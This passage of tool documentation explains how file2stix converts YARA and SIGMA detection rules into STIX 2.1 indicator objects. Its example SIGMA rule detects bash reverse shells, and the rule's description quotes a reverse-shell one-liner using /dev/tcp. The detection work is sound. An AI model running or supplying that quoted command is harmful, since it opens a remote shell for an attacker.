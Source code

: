 The YARA rule is first encoded with JSON escapes before it is saved in the `pattern` value. e.g.

```
rule dummy\r\n{\r\n    condition:\r\n        false\r\n}
```

The `<RULE NAME>` is defined between the text `rule ` and first `{` (e.g. `dummy` in the last example).

### 19. SIGMA Rule Observables (`indicator`)

e.g. 

```yaml
title: Linux Reverse Shell Indicator
id: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871
status: experimental
description: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')
date: 2021/10/16
author: Florian Roth
logsource:
   product: linux
   category: network_connection
detection:
   selection:
      Image|endswith: '/bin/bash'
   filter:
      DestinationIp: 
         - '127.0.0.1'
         - '0.0.0.0'
   condition: selection and not filter
```

SIGMA Rules are detected if valid YAML containing three top level fields `title`, `logsource` and `detection` is present. If the three field names are detected, entire YAML content is ingested as the SIGMA rule.

SIGMA Rules are represented by [STIX Indicator SDOs (`"type": "indicator"`)](https://docs.oasis-open.org/cti/stix/v2.1/csprd01/stix-v2.1-csprd01.html#_Toc16070633) with [`"pattern_type": "sigma"`](https://docs.oasis-open.org/cti/stix/v2.1/os/stix-v2.1-os.html#_9lfdvxnyofxw).

Here is how SIGMA Rule observables are represented in STIX 2.1 by file2stix;

#### STIX 2.1 extension-definition

https://raw.githubusercontent.com/signalscorps/stix2-objects/main/extension-definition/extension-definition--94f4bdb6-7f39-4d0a-b103-f787026963a6/20220101000000000.json

#### STIX 2.1 indicator SDO

```json
  {
    "type": "indicator",
    "spec_version": "2.1",
    "id": "indicator--<GENERATED BY STIX2 LIBRARY>",
    "created_by_ref": "identity--<IF TLP RED/AMBER/GREEN USER IDENTITY ID>",
    "created": "<REPORT CREATED PROPERTY VALUE>",
    "modified": "<REPORT MODIFIED PROPERTY VALUE>",
    "indicator_types": ["unknown","<IF MATCHES WARNING LIST BENIGN>"],
    "name": "SIGMA Rule: <SIGMA RULE TITLE>",
    "pattern_type": "sigma",
    "pattern": "<SIGMA RULE>",
    "valid_from": "<REPORT CREATED PROPERTY VALUE>",
    "object_marking_refs": [
      "marking-definition--<TLP LEVEL SET>"
    ],
    "extensions": {
```